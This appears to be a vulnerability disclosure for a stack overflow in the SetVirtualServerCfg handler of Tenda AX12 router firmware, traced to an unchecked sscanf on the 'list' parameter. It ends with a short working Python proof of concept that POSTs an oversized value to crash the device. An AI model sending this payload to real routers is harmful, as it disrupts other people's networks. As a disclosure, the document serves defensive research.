


Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetVirtualServerCfg` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

There is a stack overflow vulnerability in the `sub_42DE00` function.

First, this function calls the `sub_42DB88` function.



In the `sub_42DB88` function:



The `v3` variable is obtained directly from the http request parameter `list`.

Then `v3` will be splice to stack by function `sscanf` without any security check, which causes stack overflow.

So by POSTing the page `/goform/SetVirtualServerCfg` with long `list`, the attacker can easily perform a Denial of Service(DoS).

# POC

Poc of Denial of Service(DoS):

```python
import requests

url = "http://192.168.0.1/goform/SetVirtualServerCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

